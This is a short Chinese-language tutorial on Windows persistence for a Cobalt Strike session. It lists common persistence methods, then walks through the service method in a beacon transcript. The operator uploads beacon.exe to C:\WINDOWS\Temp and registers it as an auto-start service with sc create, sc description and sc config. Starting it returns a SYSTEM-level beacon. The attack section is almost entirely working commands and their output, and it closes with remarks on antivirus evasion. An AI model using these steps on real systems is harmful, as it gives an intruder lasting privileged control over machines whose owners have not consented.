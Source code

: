 # 0x00 简介

权限维持以启动CS会话为例,不涉及账号隐藏等等,
常见的可以用于启动会话的权限维持方式。

Windows

1. 注册表

2. 启动项

3. 计时任务

4. 服务

5. shift或者放大镜

6. 各种劫持 

7. 利用其他安装的软件



网上都有相关资料这里我就不详细讲述了，这里根据YouTube作者视频讲的"服务"，所以这里我也以它为例。


# 0x01 服务

首先生成一个windows Service exe

![Cobalt Strike ](./img/17.1.png)

```
beacon> cd C:\WINDOWS\Temp\
[*] cd C:\WINDOWS\Temp\
[+] host called home, sent: 24 bytes

beacon> ls
[*] Tasked beacon to list files in .
[+] host called home, sent: 19 bytes
[*] Listing: C:\WINDOWS\Temp\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     11/15/2014 16:12:21   vmware-SYSTEM
 

beacon> upload /root/beacon.exe
[*] Tasked beacon to upload /root/beacon.exe as beacon.exe
[+] host called home, sent: 309782 bytes
beacon> shell sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[*] Tasked beacon to run: sc create "thisisserver" binpath= "C:\WINDOWS\Temp\beacon.exe"
[+] host called home, sent: 93 bytes
[+] received output:
[SC] CreateService 成功


beacon> shell sc description "thisisserver" "description"
[*] Tasked beacon to run: sc description "thisisserver" "description"
[+] host called home, sent: 74 bytes
[+] received output:
[SC] ChangeServiceConfig2 成功


beacon> shell sc config "thisisserver" start= auto
[*] Tasked beacon to run: sc config "thisisserver" start= auto
[+] host called home, sent: 67 bytes
[+] received output:
[SC] ChangeServiceConfig 成功


beacon> shell net start "thisisserver"
[*] Tasked beacon to run: net start "thisisserver"
[+] host called home, sent: 55 bytes

```

执行后返回一个system beacon


# 0x02 文末

其实在权限维持的时候使用启动CS server 不是个好的选择，同时这种权限维持对server的免杀要求较高,
利用常用程序的dll感觉还不错。

### 本文如有错误，请及时提醒，以免误导他人
